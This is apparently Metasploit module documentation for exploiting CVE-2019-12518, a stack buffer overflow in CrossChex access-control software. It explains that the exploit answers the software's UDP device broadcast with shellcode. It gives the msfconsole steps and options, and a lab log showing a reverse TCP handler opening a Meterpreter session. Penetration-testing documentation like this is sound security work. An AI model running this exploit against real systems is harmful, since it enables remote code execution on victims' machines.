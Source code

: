 ## Introduction

CrossChex is a personnel identity verification, access control, and time attendance management system compatible with Windows 7,8 & 10. It uses UDP broadcasts to identify and connect with Access Control devices on a network. The code used to handle a response from an Access Control device is vulnerable to a Stack Buffer Overflow attack on CrossChex versions `Crosschex Standard x86 <= V4.3.12`. Tracked as CVE-2019-12518, and as such permits arbitrary code execution.

The code used to overflow the Stack Buffer and code an attacker wishes to be executed as a result of the exploit are sent in a single UDP packet as a response to the CrossChex broadcast. As both the exploit and the payload must be contained inside a single UDP packet, an exploit has a maximum size of `8947 Characters`.

This module exploits CVE-2019-12518 by listening for a CrossChex "new device" broadcast for a given number of seconds (`TIMEOUT`). It then responds with a UDP packet containing shellcode for both the Buffer Overflow exploit and the attacker's chosen payload. The `Space` payload option ensures no payload of too large a size is used to ensure successful exploitation. If a broadcast is not detected within the given `TIMEOUT`, the module exits with a warning.

## Verification Steps

1. Start `msfconsole`
2. `use windows/misc/crosschex_device_bof`
3. `set LHOST vboxnet0`
4. `run`
5. Open CrossChex
6. Navigate to Device > Add
7. Select `Search`
8. Verify payload executes correctly

## Options

1.  `TIMEOUT` Seconds module waits for broadcast, defaults to `1000`.
2.  `CHOST`. Address UDP packet response is sent from. Defaults to `0.0.0.0`.
3.  `CPORT`. Port UDP packet response is sent from. Defaults to `5050` as CrossChex expects communication from this port.

## Compatible Payloads

Any basic x86 windows payload.

## Payload Options
As above.

## Scenarios

```
msf5 exploit(windows/misc/crosschex_device_bof) > run

[*] Started reverse TCP handler on 192.168.56.1:4444
[*] CrossChex broadcast received, sending payload in response
[*] Payload sent
[*] Sending stage (180291 bytes) to 192.168.56.3
[*] Meterpreter session 1 opened (192.168.56.1:4444 -> 192.168.56.3:49160) at 2020-02-10 16:21:13 +0000

meterpreter > ls
Listing: C:\Program Files\Anviz\CrossChex Standard
==================================================
...



```

## References

1. <https://cvedetails.com/cve/CVE-2019-12518>
2. <https://www.0x90.zone/multiple/reverse/2019/11/28/Anviz-pwn.html>
3. <https://www.exploit-db.com/exploits/47734>
